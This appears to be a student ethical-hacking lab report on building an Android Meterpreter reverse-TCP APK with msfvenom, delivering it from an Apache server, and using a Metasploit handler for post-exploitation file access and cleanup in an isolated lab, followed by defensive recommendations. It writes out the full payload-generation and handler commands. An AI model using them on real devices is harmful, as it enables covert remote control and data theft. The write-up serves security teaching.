





# Ethical Hacking Lab 25: Mobile Hacking

*Android Meterpreter Payload Delivery and Post-Exploitation*

**Course:** IT460 Threat Hunting &nbsp;·&nbsp; **Category:** Mobile Security / Exploitation &nbsp;·&nbsp; **Environment:** Isolated 192.168.0.0/24 lab network (Android Pie target)

> The full report is rendered below. A formal copy is also available for download: [**Mobile-Hacking-Report.pdf**](./Mobile-Hacking-Report.pdf)

## Outcome

- Generated an Android Meterpreter reverse-TCP APK with msfvenom, hosted it on Apache, and installed it on an Android 9 target.
- Caught the callback with a Metasploit multi/handler and opened a Meterpreter session for system, network, and application enumeration.
- Demonstrated post-exploitation filesystem access: removed the downloaded APK and uploaded a proof-of-access file to the device's shared storage.

## Skills Demonstrated

- Android Payload Generation (msfvenom)
- Malicious APK Delivery via Web Server
- Reverse-TCP Exploitation and Handler Configuration
- Meterpreter Post-Exploitation and Enumeration
- Mobile Filesystem Access and Controlled Cleanup
- Mobile Security Analysis and Reporting

## Tools Used

- Kali Linux
- msfvenom
- Apache Web Server
- Metasploit Framework (multi/handler)
- Meterpreter (Android/Dalvik)
- Hyper-V Manager

---

## Objective

The objective of this lab was to demonstrate how a malicious Android application package could be generated, delivered, and executed within an authorized lab environment. An Android Meterpreter reverse TCP payload was created with msfvenom, hosted on an Apache web server, and installed on an Android Pie virtual machine. A Metasploit multi-handler received the reverse connection and provided a Meterpreter session for system enumeration and controlled filesystem access. The lab concluded by removing the downloaded APK and transferring a text file to the Android device as proof of access.

## Lab Environment

| System | IP Address | Role |
| --- | --- | --- |
| Kali Linux | `192.168.0.2` | Payload generation, Apache web server, Metasploit handler, and Meterpreter control system |
| Android Pie | `192.168.0.5` | Authorized mobile-device target running Android 9 |
| WinOS | `192.168.0.20` | Hyper-V host used to operate the Android Pie virtual machine |
| pfSense | `192.168.0.254` | Gateway for the 192.168.0.0/24 lab network |

## Commands and Tools Used

| Command or Tool | Purpose |
| --- | --- |
| Hyper-V Manager | Started and managed the Android Pie virtual machine |
| `ip addr show eth1` | Verified that Kali was using the 192.168.0.2 network interface |
| `systemctl start apache2` | Started the Apache web service used to host the APK |
| `mkdir -p /var/www/html/lab25` | Created the web directory used to store the payload |
| `msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=4444 R > /var/www/html/lab25/android.apk` | Generated the Android Meterpreter reverse TCP payload |
| `ls -lh /var/www/html/lab25/android.apk` | Confirmed that the APK was created successfully |
| `use exploit/multi/handler` | Selected the Metasploit generic payload handler |
| `set payload android/meterpreter/reverse_tcp` | Configured the handler for the Android Meterpreter payload |
| `set LHOST 192.168.0.2` | Configured the callback address as the Kali system |
| `set LPORT 4444` | Configured the listener port to match the generated payload |
| `exploit -j -z` | Started the reverse TCP handler as a background job |
| `sessions -i 1` | Interacted with the established Meterpreter session |
| `sysinfo` | Enumerated the target operating system and architecture |
| `ifconfig` | Enumerated the Android device's network interfaces |
| `app_list` | Requested a list of applications installed on the device |
| `check_root` | Checked whether the compromised Android device was rooted |
| `cd`, `pwd`, `ls` | Navigated and inspected the Android filesystem |
| `rm android.apk` | Removed the downloaded APK from the Android Downloads directory |
| `upload -r /root/Desktop/README.txt /storage/emulated/0/Android/data` | Transferred a proof-of-access file from Kali to the Android device |

## Lab Procedure and Results

### 1. Android Device Configuration

The Android Pie virtual machine was started through Hyper-V Manager on the WinOS system. The device was running Android 9 and was connected to the lab's 192.168.0.0/24 network.

The Android network settings identified the device's IP address as 192.168.0.5, with 192.168.0.254 configured as the default gateway and 255.255.255.0 as the subnet mask. Kali was configured to use its eth1 interface with the address 192.168.0.2, placing both systems on the same network and permitting direct communication.

### 2. Android Payload Generation

The Apache web service was started on Kali, and the /var/www/html/lab25 directory was prepared to host the payload. The following command generated the Android application package:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.2 LPORT=4444 \
  R > /var/www/html/lab25/android.apk
```

The selected payload was android/meterpreter/reverse_tcp, which instructed the application to initiate a reverse TCP connection to Kali at 192.168.0.2 on TCP port 4444. The generation output confirmed that Metasploit automatically selected Android as the platform and Dalvik as the architecture. The resulting raw payload was 10,180 bytes. A subsequent file listing confirmed that android.apk existed in /var/www/html/lab25 and occupied approximately 10 KB.

### 3. APK Delivery and Installation

Chrome was opened on the Android device and used to access the Apache web server at http://192.168.0.2. The lab25 directory was opened, and android.apk was downloaded to the device.

Android initially prevented installation because Chrome was not authorized to install applications from unknown sources. The lab-required **Allow from this source** setting was enabled for Chrome, after which the APK was installed and opened.

This stage demonstrated an important security control built into Android. The device did not silently install the untrusted application. Successful execution required the user to disregard the browser warning, authorize Chrome as an installation source, approve the installation, and launch the application.

### 4. Reverse TCP Handler and Meterpreter Session

Metasploit Framework was started on Kali, and exploit/multi/handler was configured with the same payload, callback address, and port embedded in the APK:

```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.0.2
set LPORT 4444
exploit -j -z
```

When the installed application executed, the Android device initiated an outbound connection to the Kali handler. Metasploit registered the connection as session 1, and the session was opened using `sessions -i 1`. The prompt changed to `meterpreter >`, confirming successful remote code execution through the installed application.

The sysinfo command identified the target as Android 9 running Linux kernel 4.19.110-android-x86_64-g066cc1d on an x86_64 architecture. Meterpreter was operating through the Dalvik/Android environment. Additional enumeration commands were used to inspect network interfaces, installed applications, and the device's root status.

### 5. Filesystem Access and Cleanup

The Meterpreter session was used to navigate to the Android Downloads directory and remove the previously downloaded package:

```bash
cd /sdcard/Download
ls
rm android.apk
ls
```

The subsequent directory listing returned `No entries exist in /storage/emulated/0/Download`, confirming that the downloaded installation package had been deleted. Removal of the APK represented a controlled cleanup and anti-forensics demonstration required by the lab. In a professional penetration test, every cleanup action must be authorized and documented so the client can verify that testing artifacts were removed without affecting legitimate evidence or data.

### 6. Proof-of-Access File Transfer

A file named README.txt was created on the Kali desktop containing the text `YOU HAVE BEEN HACKED!!`. The file was uploaded through Meterpreter with:

```bash
upload -r /root/Desktop/README.txt /storage/emulated/0/Android/data
```

The Android Files application was then used to navigate to the internal storage location Android/data. The transferred README.txt file was located and opened successfully, displaying the expected message. This result provided visible proof that the Meterpreter session possessed sufficient access to write a file into the Android device's shared storage. The test did not require or demonstrate unrestricted root-level control of the entire Android operating system.

## Security Analysis

The lab demonstrated a client-side mobile compromise rather than exploitation of an unpatched Android kernel vulnerability. The Android device was compromised because an untrusted APK was downloaded, installation from an unknown source was explicitly enabled, the application was installed, and the application was executed.

Once launched, the embedded reverse TCP payload caused the Android device to initiate an outbound connection to the attacker-controlled Kali system. A reverse connection can be effective because outbound traffic is often subject to fewer restrictions than unsolicited inbound traffic. The resulting Meterpreter session provided system information, network information, application enumeration, and filesystem operations within the permissions available to the application.

The payload's success depended on several security-relevant conditions:

- The device could communicate directly with the Kali system.
- Chrome was permitted to download the APK.
- The user ignored a harmful-file warning.
- Installation from an unknown source was enabled.
- The untrusted application was manually installed and opened.
- Outbound TCP traffic to port 4444 was not blocked.
- No mobile security control prevented the payload from executing.

The session demonstrated that even without confirmed root access, a malicious application can expose system information and user-accessible storage. Depending on the permissions granted to an application, similar malware could potentially access sensitive files, record device information, monitor communications, or establish persistent command-and-control access.

Deleting the downloaded APK reduced obvious evidence in the Downloads directory but did not remove the installed application. Complete remediation would require uninstalling the application, revoking its permissions, disabling the unknown-source authorization, terminating active sessions, and reviewing the device for additional artifacts.

## Reflection

This lab demonstrated how technical exploitation and user behavior can combine to compromise a mobile device. Android correctly displayed warnings and blocked the initial installation attempt, but those protections became ineffective after the user authorized Chrome to install unknown applications and proceeded with the installation.

The exercise also clarified the relationship between a payload and its handler. The APK contained the callback address and port, while the Metasploit handler waited for the device to initiate the connection. Both configurations had to match for the Meterpreter session to succeed.

The most significant lesson was that mobile security cannot depend exclusively on warning messages. Users may ignore warnings when an application appears useful, urgent, or trustworthy. Effective protection requires layered controls, including trusted application distribution, application allowlisting, mobile-device management, permission restrictions, network monitoring, and security awareness.

The final file transfer demonstrated meaningful post-exploitation access without overstating the result as complete root compromise. Maintaining that distinction is important when documenting penetration-test findings because the report must accurately describe the level of access that was verified.

## Recommendations

1. **Restrict installation from unknown sources.** Devices should prohibit application installation from browsers, file managers, and other untrusted sources unless a documented business requirement exists.
2. **Use mobile-device management.** An MDM or enterprise mobility management platform should enforce application-installation policies, approved application lists, device encryption, screen locking, and compliance monitoring.
3. **Deploy application allowlisting.** Only approved and digitally signed applications should be allowed to execute on organizational mobile devices.
4. **Use trusted application distribution.** Applications should be distributed through Google Play, a controlled enterprise store, or another verified deployment system.
5. **Minimize application permissions.** Applications should request only the permissions necessary for their intended functions. Administrators should regularly review installed applications and permission assignments.
6. **Enable mobile threat defense.** Mobile endpoint security should identify suspicious APKs, malicious behavior, unauthorized installations, and command-and-control activity.
7. **Monitor outbound network traffic.** Security controls should detect or restrict unusual outbound connections, including reverse-shell traffic to uncommon destinations or ports such as TCP 4444.
8. **Segment mobile and testing networks.** Mobile devices should not have unrestricted access to sensitive internal systems. Authorized testing networks should remain isolated from production resources.
9. **Provide security-awareness training.** Users should be trained not to disregard harmful-file warnings or enable installation from unknown sources without authorization.
10. **Perform complete incident remediation.** Following discovery of an untrusted application, responders should terminate active connections, uninstall the application, revoke permissions, disable unknown-source installation, inspect the device for additional artifacts, and reset potentially exposed credentials.

## Evidence

**Figure 1.1 — Android Pie Network Configuration**

The Android Network Details page displays the target IP address 192.168.0.5, gateway 192.168.0.254, and subnet mask 255.255.255.0. This confirms that the Android device was connected to the same 192.168.0.0/24 network used by Kali.



**Figure 2.1 — Android Meterpreter Payload Generation**

The Kali terminal shows successful generation of the android/meterpreter/reverse_tcp payload with LHOST=192.168.0.2 and LPORT=4444. Metasploit selected the Android platform and Dalvik architecture and produced a 10,180-byte raw payload. The file listing confirms that android.apk was created in /var/www/html/lab25.



**Figure 3.1 — Meterpreter Session Established with Android 9**

Metasploit successfully interacted with session 1 and presented a Meterpreter prompt. The sysinfo results identify the target as Android 9 running Linux kernel 4.19.110-android-x86_64-g066cc1d on an x86_64 architecture, with Meterpreter operating through Dalvik/Android.



**Figure 3.2 — Downloaded APK Removed from Android Storage**

The Meterpreter session removed android.apk from the Android Downloads directory. The subsequent ls command reported that no entries existed in /storage/emulated/0/Download, confirming removal of the downloaded installation package.



**Figure 3.3 — Proof-of-Access File Opened on Android**

The Android device successfully opened the transferred README.txt file and displayed the message "YOU HAVE BEEN HACKED!!" This verifies that the Meterpreter session could transfer a file from Kali into the Android device's shared storage.


